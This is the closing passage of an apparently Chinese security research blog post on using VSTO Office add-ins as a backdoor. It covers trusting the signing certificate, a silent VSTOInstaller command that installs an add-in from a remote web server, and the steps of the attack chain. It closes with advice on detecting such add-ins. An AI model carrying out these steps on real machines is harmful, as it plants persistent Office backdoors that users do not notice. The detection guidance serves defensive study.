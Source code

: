 **注：**

需要将证书同时添加到`TrustedPublisher`和`root`

再次安装VSTO插件，不会被拦截

#### (3) 远程安装

VSTOInstaller.exe支持远程安装

可以将VSTO插件放在远程Web服务器上

安装参数如下：

```
"C:\Program Files\Common Files\microsoft shared\VSTO\10.0\VSTOInstaller.exe" /s /i http://192.168.62.131/1/WordAddIn1.vsto
```

综上，实际利用过程如下： 

- 生成VSTO插件
- 为插件添加签名
- 证书注册
- 远程下载安装


## 0x04 后门检测
---

1、查看`控制面板` -> `程序` -> `程序和功能`，是否有可疑插件

**注：**

VSTO插件并不会在注册表卸载配置的位置(`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\`)创建新键值

2、查看Office的COM加载项

**注：**

禁用宏并不会阻止VSTO插件的加载

## 0x05 小结
---

本文测试了利用VSTO实现Office后门的方法，结合实际利用思路，分析检测方法


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



